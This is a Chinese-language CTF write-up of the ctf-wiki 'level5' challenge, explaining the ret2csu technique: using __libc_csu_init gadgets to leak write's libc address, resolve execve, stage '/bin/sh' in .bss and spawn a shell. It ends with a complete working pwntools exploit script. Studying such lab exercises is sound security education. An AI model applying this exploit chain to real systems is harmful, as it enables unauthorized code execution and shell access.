 #level5（ctf-wiki）
 __libc_csu_init函数会对libc进行初始化，因此当我们找不到合适的与寄存器相关的gadgets时，我们可以从 __libc_csu_init入手寻找gadgets  
首先使用objdump观察__libc_csu_init  
![](image/1.jpg)  
![](image/2.jpg)  
运行一下程序  
发现是一个简单的输入程序  
![](image/3.jpg)  
调用了read函数读取输入  
那么首先利用pattern找到溢出点  
![](image/4.jpg)  
程序中没有system函数和\bin\sh字符串，所以需要通过输入的方式进行构造  
利用的四个步骤：  
1、通过溢出执行write函数泄露出write函数本身的地址，再跳回到main函数中继续执行。  
2、利用write函数的地址确定对应的libc版本，然后算出execve的位置。  
3、通过溢出执行read函数，将execve与关键字符串写入到bss段中，再跳回到main函数继续执行。  
4、通过溢出执行bss段内的execve函数。  
需要涉及到的知识点  
1、64位程序的前六个参数通过寄存器传递。%rdi，%rsi，%rdx，%rcx，%r8，%r9 用作函数参数，依次对应第1参数，第2参数。。。  
2、read函数可以进行输入，write函数可以进行输出，fd=0为标准输入，df=1为标准输出。  

完整代码  
```
from pwn import *
from LibcSearcher import *
context.terminal = ['gnome-terminal','-x','sh','-c']
level5 = ELF("./level5")
sh = process("./level5")
bss_base = level5.bss()

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
csu_mov_addr = 0x0000000000400600   #  mov rdx, r13 ;mov rsi, r14 ;mov edi, r15d ;call qword ptr [r12+rbx*8];add rbx, 1;cmp rbx, rbp;jnz hort loc_400600;
csu_pop_addr = 0x000000000040061A    #pop rbx; pop rbp;pop r12;pop r13;pop r14;pop r15;
payload1 = 'a' * 136
payload1 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1)
payload1 += p64(csu_mov_addr)
payload1 += 'a' * 56
payload1 += p64(main_addr)
sh.recvuntil('Hello, World\n')
sh.send(payload1)
sleep(1)
write_addr = u64(sh.recv(8))
print hex(write_addr)
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
print hex(execve_addr)

payload2 = 'a' * 136
payload2 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(read_got) + p64(16) + p64(bss_base) + p64(0)
payload2 += p64(csu_mov_addr)
payload2 += 'a' * 56
payload2 += p64(main_addr)
sh.send(payload2)

payload3 = p64(execve_addr) + '/bin/sh\x00'
sh.send(payload3)
sh.recvuntil('Hello, World\n')

payload4 = 'a' * 136
payload4 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(bss_base) + p64(0) + p64(0) + p64(bss_base+8)
payload4 += p64(csu_mov_addr)
payload4 += 'a' * 56
payload4 += p64(main_addr)
sh.send(payload4)
sh.interactive()
```